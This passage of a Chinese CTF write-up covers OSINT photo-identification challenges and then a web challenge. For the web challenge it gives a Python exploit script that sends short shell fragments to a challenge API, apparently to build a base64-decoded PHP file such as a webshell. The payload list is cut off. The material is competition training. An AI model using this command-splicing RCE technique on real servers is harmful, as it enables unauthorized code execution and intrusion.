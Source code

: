 https://k.sina.com.cn/article_5638975650_1501bf0a2001016txn.html

## 大飞机
可以辨认出logo是国航的，搜到国航747只有8台，本来准备照着747搜，后来进一步识图找到原图

https://tieba.baidu.com/p/4924151210?red_tag=0130658886l

提到“大国航的748”，然后百度国航747-8航班号应该就出来了

## 铁道人之泪（下架）
直接搜可以找到两个出处知道了铁道名和可能在的位置  
然后把铁道名放到搜索引擎里再找，桥总共28个，但是有著名的桥并不多  
https://www.sohu.com/a/527685589_121294666  
盒了半天。车号都找到了，于是把搜到的两个桥的名字都交了一遍  

# Web
## web签到
直接抄常用姿势笔记，或者搜x字符RCE，这里是6字符好像，但可以直接用四字符的
```python
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-05-06 13:25:41
# @Last Modified by:   h1xa
# @Last Modified time: 2022-05-10 20:56:17
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


import requests
import time

url = "http://xxxxxxxxxxxchallenge.ctf.show/api/"

payload = [
    '>\\ \\',
    '>-t\\',
    '>\\>a',
    '>ls\\',
    'ls>v',
    '>mv',
    '>vt',
    '*v*',
    '>ls',
    'l*>t',
    '>cat',
    '*t>z',

    '>php',
    '>a.\\',
    '>\\>\\',
    '>-d\\',
    '>\\ \\',
    '>64\\',
    '>se\\',
    '>ba\\',
    '>\\|\\',
    '>4=\\',
    '>Pz\\',
    '>k7\\',
    '>XS\\',
    '>sx\\',
```